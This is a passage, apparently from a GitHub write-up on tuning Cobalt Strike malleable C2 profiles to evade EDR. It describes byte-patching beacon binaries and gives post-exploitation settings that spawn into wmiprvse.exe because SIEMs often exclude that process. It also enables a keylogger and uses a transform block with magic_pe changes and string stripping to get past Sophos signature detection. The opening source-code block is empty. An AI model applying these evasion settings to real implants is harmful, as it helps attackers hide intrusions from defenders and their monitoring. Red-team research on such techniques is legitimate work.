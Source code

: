 ```
```

The code searches for the byte sequence \x25\xff\xff\xff\x00\x3d\x41\x41\x41\x00 (and eax,0xFFFFFF) and replace it with the new byte sequence \xb8\x41\x41\x41\x00\x3D\x41\x41\x41\x00 (mov eax, 0xFFFFFF). The changes are later saved to the new binary file.

## Improving the Post Exploitation stage

We took our reference profile and updated the Post Exploitation profile to the following:

```
post-ex {
    set pipename "Winsock2\\CatalogChangeListener-###-0";
    set spawnto_x86 "%windir%\\syswow64\\wbem\\wmiprvse.exe -Embedding";
    set spawnto_x64 "%windir%\\sysnative\\wbem\\wmiprvse.exe -Embedding";
    set obfuscate "true";
    set smartinject "true";
    set amsi_disable "false";
    set keylogger "GetAsyncKeyState";
    #set threadhint "module!function+0x##"
}
```

We had to turn off threadhint due to detection and also with AMSI disable, since those are a prime memory IOCs. Some profiles are using svchost.exe as a process to spawn, but that should never be used anymore. A really good alternative is spawning to wmiprvse.exe since this processor is heavily excluded on Sysmon and other SIEMs due to the extreme amount of logs generated.

## Taking down the final boss

We cannot say this is a bypass unless we manage to bypass a fully-updated EDR; this time we went for Sophos. Bypassing Sophos (signature detection) was possible only by enabling the following option in the profile:

```
set magic_pe "EA";

transform-x64 {
    prepend "\x90\x90\x90\x90\x90\x90\x90\x90\x90"; # prepend nops
    strrep "This program cannot be run in DOS mode" "";
    strrep "ReflectiveLoader" "";
    strrep "beacon.x64.dll" "";
    strrep "beacon.dll" "";
}
```

We’ve added set magic_pe which changes the PE header magic bytes (and code that depends on these bytes) to something else. You can use whatever you want here, so long as it’s two characters. The prepend can be only NOPs instructions, but it is highly recommend to use a junk shellcode generated by our python script (which we explained on the previous sections of the blogpost). While it bypasses the static detection, it is obviously not good enough to bypass the runtime one.

<h2 align="center"></h2>
<img src="https://github.com/chipmanfu/Cobalt-Strike-Profiles-for-EDR-Evasion/blob/main/3img/27.png" 
<p align="center">
